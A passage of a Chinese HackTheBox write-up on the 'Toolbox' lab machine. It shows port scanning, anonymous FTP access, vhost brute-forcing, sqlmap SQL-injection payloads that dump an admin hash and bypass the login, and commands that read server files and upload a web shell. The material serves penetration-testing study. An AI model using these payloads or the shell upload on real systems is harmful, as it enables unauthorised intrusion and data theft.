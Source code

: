 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责


# 服务探测
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# nmap -p- 10.10.10.236 --open                                          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-26 21:02 EST
Nmap scan report for 10.10.10.236
Host is up (0.25s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 81.26 seconds
                                                                                                                    
┌──(root💀kali)-[~/htb/Toolbox]
└─# nmap -sV -Pn 10.10.10.236 -p 21,22,135,139,443,445,5985,47001,49664,49665,49666,49667,49668,49669
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-26 21:04 EST
Nmap scan report for 10.10.10.236
Host is up (0.25s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  tcpwrapped
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.19 seconds

```

## ftp

可以匿名登录
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# ftp 10.10.10.236  
Connected to 10.10.10.236.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.236:root): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||59847|)
150 Opening data channel for directory listing of "/"
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe

```

docker-toolbox是windows下的docker工具，说明这台靶机可能是一个docker镜像。


# web

80端口整个看起来就像一个静态网站


把megalogistic.com写到hosts文件
```echo "10.10.10.236   megalogistic.com">> /etc/hosts```


gobuster爆破vhosts
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# gobuster vhost -u https://megalogistic.com -k -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 40 --no-error

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          https://megalogistic.com
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/01/27 00:37:18 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.megalogistic.com (Status: 200) [Size: 889]

```


或者用wfuzz
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# wfuzz -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --hh 22357
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.236/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000024:   200        35 L     83 W       889 Ch      "admin" 
```


把```admin.megalogistic.com```也加到hosts文件后，打开浏览器显示一个登录入口，burp截断登录请求测试发现可能存在sql注入


用sqlmap跑了一遍显示靶机的数据库是PostgreSQL,可以使用以下4种注入技术

```
sqlmap identified the following injection point(s) with a total of 164 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-9328' OR 5360=5360-- rFOM&password=admin

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin#' AND 4213=CAST((CHR(113)||CHR(98)||CHR(122)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (4213=4213) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(98)||CHR(98)||CHR(113)) AS NUMERIC)-- uJOK&password=admin

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin#';SELECT PG_SLEEP(5)--&password=admin

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin#' AND 5607=(SELECT 5607 FROM PG_SLEEP(5))-- UduU&password=admin
---
[00:53:58] [INFO] the back-end DBMS is PostgreSQL

```

使用基于错误的注入技术

拿到数据库名：
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 --dbs

available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public

```

表：
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 -D public --tables
Database: public
[1 table]
+-------+
| users |
+-------+
```

数据
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 -D public -T users --dump

Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

但是这个md5数据无法破解。
但是我们既然已经知道了username存在sql注入，那么可以用上面sqlmap跑出来的payload登录页面

> admin：admin#';SELECT PG_SLEEP(5)--
> passwd：随便

```

```

sqlmap -r data --batch --dbms=PostgreSQL --force-ssl  --no-cast --threads 4  --file-read "/var/www/admin/info.php"



sqlmap -r data --batch --dbms=PostgreSQL --force-ssl  --no-cast --threads 4   --file-write "/root/htb/Toolbox/shell.php"  --file-dest "/var/www/shell.php"
